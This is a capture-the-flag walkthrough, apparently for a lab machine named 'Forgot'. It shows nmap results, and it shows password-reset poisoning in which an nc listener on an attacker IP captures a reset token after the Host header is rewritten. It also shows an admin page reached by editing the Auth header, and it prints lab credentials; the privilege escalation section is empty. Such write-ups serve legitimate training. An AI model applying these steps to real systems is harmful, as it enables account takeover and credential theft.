 # Forgot

---

## Enumeration

- nmap:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug/2.1.2 Python/3.8.10
```

- Forgot password poisoning: https://book.hacktricks.xyz/pentesting-web/reset-password, https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

- username: 'robert-dev-14329' in source:

```zsh
curl $IP | grep by
```

- To steal the reset password token, I started nc listener and intercepted the request, changed the host to myIP:9000

```zsh
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.249.191] 34506
GET /reset?token=QzQ+7x4zUoJwaGJxYa6aAQdWG8pIlUmaneaCT/vmhYYzMG+oW5leRAkYD1qcbPI3gF6+/PbL6FzKZtCTYtDPJw== HTTP/1.1
Host: 10.10.16.23:9000
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

- Now head to /reset and rest the password using this token

---

## Foothold

- Found disabled link `/admin_tickets`, Had no access to it initially but changing the Auth header username to be admin with same password got me into this page

- found creds: `Diego:dCb#1!X0%Gjq` -> Diego:dCb#1!X0%Gjq.


---

## Privilege Escalation



---
